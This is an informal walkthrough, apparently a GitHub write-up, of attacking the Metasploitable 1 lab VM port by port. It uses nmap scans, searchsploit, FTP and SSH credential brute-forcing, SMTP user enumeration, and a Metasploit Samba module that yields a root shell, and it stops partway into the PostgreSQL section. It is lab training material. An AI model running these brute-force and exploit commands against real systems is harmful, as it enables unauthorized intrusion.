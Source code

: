 ### download the machine from https://www.vulnhub.com/entry/metasploitable-1,28/  
then luanch using vmware credintials are msfadmin:msfadmin
ip a to get machine 

Notes :
----

make sure your system is upgraded           
sudo apt update && sudo apt upgrade                 
sudo apt isntall exploitdb 


scan the target using nmap 
--
Nmap -sV -Sc <machine ip>  get 12 open ports 21 -22-23-25-53-80-139-445-3306-5430-8009
 
  
now lets walkthough each port and see what we can do (sepratly and combined ):
----

PORT  ::  STATE  ::  SERVICE ::  VERSIO
  
21/tcp :: open :: ftp ::   ProFTPD 1.3.1  
  ----

perform the command "searchsploit ProFTPD 1.3.1 " to check if the service is vulnerable
  
Exploits: No Results

try "searchsploit ProFTPD 1.3. " 
  
found some intersting result like " ProFTPd IAC 1.3.x - Remote Command Execution | linux/remote/15449.pl"
  
run the command " searchsploit -m linux/remote/15449.pl "   to mirror the exploit which is  source code written in Perl 
  
nano 15449.pl
  
taking some time try to understand the code and verify that's not malicous
  ----
using the interpreter python to verfiy ech hexa variable 
  
i DECIDED TO Import this source code to metasploit As module if you don't know how 
watch this video for it >> https://www.youtube.com/watch?v=l7mwIvT5YNo

the result was'nt pleasent :::Metasploit is not detecting the scrpit  
  --
i've tried alot but doesn't work
  
searching for the issu found that this exploit does not written as metasploit module so 
  
msf would have no idea what to do with it
  
you can see this article  https://github.com/rapid7/metasploit-framework/issues/12825

so i decided to run the exploit as it is using perl interpreter 
  --
typeing perl 15549.pl <ip target> <my ip> target type

it appeared that this script does not have vuln for the exact ProFTPD 1.3.1  So it fails to exploit the service 

so i've moved to another approched " brute forcing the service for weak credintials " 
  --
using Nmap Engine 
nmap <tagetip> 21 --script =ftp-brute.nse

took 600s to find valid credintial of user:user 

checking to see if this ftp supports excuting command through " SITE EXEC command" 
it seems like it does not support that 

so far we got valid credintaial for ftp with no ablility to excute commands or existance of sensitve files
 perform another intensive scan for the ftp , found potential vuln
 
 CVE-2011-4130 CVSS 9.0
 ---
 
allows remote authenticated users to execute arbitrary code , let's give it a shot 
 unfortentally there are no proof of concept or working exploit availabe online also there is no metasploit module for it
 
 so let's move on
 
 
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
----
trying the same credintial of fttp for ssh it works :D 

  now we can excute files on the machine  
 
 get step back and use nmap scropt engine for inteinsive scanning for port22
 
 nmap -sV -sC 192.168.1.3 -p 22 --script vuln get some result 
 
 CVE-2011-1013 CVSS 7.2
---
 allows local users to cause a denial of service (system crash)

 CVE-2010-4478 CVSS 7.5
---
 which allows remote attackers to bypass the need for knowledge of the shared secret, and successfully authenticate
 
  unfortentally there are no proof of concept or working exploit availabe online also there are no metasploit module for them
 
 so i've moved to another approched " brute forcing the service for root credintials " using metaspolit
 ---
 msf > use auxiliary/scanner/ssh/ssh_login
 
msf auxiliary(ssh_login) > set RHOSTS 10.0.0.27
 
RHOSTS => 192.168.1.3
 
msf auxiliary(ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
 
USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
 

 msf auxiliary(ssh_login) > run
 
 no promising results , so lets move forward 
 
23/tcp   open  telnet      Linux telnetd
---
 nmap

  nmap -sV -sC 192.168.1.3 -p 23 --script vuln get some result
 saerchsplit for telnet linux 
 coulden't verfy that the service is vulnerable 

 25/tcp   open  smtp        Postfix smtpd
 -----
 
 nmap -sV -sC 192.168.1.3 -p 23 --script vuln get some result
 the service is vurnalble to two mitm attacks (which i skiped) 
 enumerating the user using smpt-user-enum tool getting me this result 
 --
 
 192.168.1.3:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data

bruteforcing the password using hydra but authentication not enabled on the server 
 
 53/tcp   open  domain      ISC BIND 9.4.2
----
 using nmap engine found CVE-2008-0122 CSSV 10.0 vulnebilitys that causes Denial Of ServiceExecute CodeMemory corruption

 
 There are not any metasploit modules related to this CVE or any working online exploit
 
 
 
 80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.10 with Suhosin-Patch)
---
 running nmap , searching edb and mfs couldn't verfy vulnerability for the exact version of the service
 
 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
      445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
----
 saerching exploit database for Samba getting me MSF module that returns a root shell 
 > use exploit/multi/samba/usermap_script
> set RHOST 192.168.1.3
> exploit 

 $whoami 

 root 
 sudo/etc/shadow :D 
 
 3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
 ---
 Could not find any vulnerabilities matching this version
 
 5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
---
 
searching the MSF i found a module for remote shell 
 
 
 
 
 
 
